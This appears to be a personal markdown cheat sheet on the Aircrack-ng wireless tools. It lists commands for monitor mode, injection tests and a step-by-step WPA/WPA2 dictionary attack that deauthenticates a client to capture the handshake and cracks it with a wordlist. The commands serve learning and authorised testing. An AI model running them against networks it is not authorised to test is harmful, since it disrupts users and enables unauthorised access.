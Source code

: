 # Aircrack-ng

## General

Show interfaces, chipsets and drivers:


```bash

sudo airmon-ng

```

Start monitor mode on specific interface (network card):


```bash

sudo airmon-ng start wlx0008caa46de5

```

Start packet capture on specific interface (network card):

```bash

sudo airodump-ng wlx0008caa46de5

```

Test packet injection and quality:

```bash

sudo aireplay-ng --test wlan0mon

```

Crack a WEP or WPA key without user intervention and collaborate with WPA cracking statistics:

```bash

besside-ng

```

## Tests

### Test capabilities (monitor mode and package injection)

- start monitor mode for specific wi-fi interface (`wlan0` - wi-fi interface from `iwconfig` list):

```bash

sudo airmon-ng start wlan0mon

```
- unblock (from soft block) wi-fi interfaces if needed (optional):

```bash

sudo rfkill unblock all

```

- test capabilities (`wlan0mon` - new wi-fi interface which should appear after monitor mode was enabled during previous step):

```bash

sudo aireplay-ng --test wlan0mon

```

## Attacks

### WPA/WPA2 Dictionary Attack

- find out the BSSID of the access point;

- decide on the wordlist that should be used for the attack;

- capture a legitimate user connecting to the access point;

- generate the authentication traffic;

- capture a legitimate user connecting to the access point;

- execute the dictionary attack;

#### Method 1 (not complete) - steps

- find virtualized Kali Linux LAN adapter that were successfully bridged to current device using `iwconfig`;

- turn off LAN adapter using `sudo ifconfig wlan0 down`;

- put LAN adapter into 'monitor mode' using `sudo iwconfig wlan0 mode monitor`;

- turn on LAN adapter using `sudo ifconfig wlan0 up`;

- confirm that LAN adapter is in 'monitor mode' using `iwconfig`;

- find the BSSID and chanel of the access point using `sudo airodump-ng wlan0`;

- capture the 4-way authentication handshake for the AP: `sudo airodump-ng --bssid 00:11:22:33:44:55:66 --channel 1 --write wepcracking wlan0`;

- crack the password using following command: `sudo aircrack-ng wepcracking-01.cap` (`wepcracking-01.cap` - file which were generated by previous command);

#### Method 2 (complete, tested) - steps

- find virtualized Kali Linux LAN adapter that were successfully bridged to current device using `iwconfig`;

- turn off LAN adapter using `sudo ifconfig wlan0 down`;

- put LAN adapter into 'monitor mode' using `sudo iwconfig wlan0 mode monitor`;

- turn on LAN adapter using `sudo ifconfig wlan0 up`;

- confirm that LAN adapter is in 'monitor mode' using `iwconfig`;

- find the BSSID and chanel of the access point using `sudo airodump-ng wlan0` (upper `BSSID` - MAC of access point, lower `BSSID` - MAC of access point, lower `STATION` - MAC of client);

- capture the 4-way authentication handshake for the AP using `sudo airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0` (`BSSID` of access point);

- deauthenticate the wireless client in order to capture the handshake (may need to run multiple times, optional step) using `sudo aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0` (`BSSID` of AP then client);

- crack the password using dictionary using `sudo aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap` (`BSSID` of access point);

#### Notes

WPA/WPA2 supports many types of authentication beyond pre-shared keys. Aircrack-ng can ONLY crack pre-shared keys. So make sure airodump-ng shows the network as having the authentication type of PSK, 
otherwise, don't bother trying to crack it. Only plain brute force techniques can be used against WPA/WPA2. 
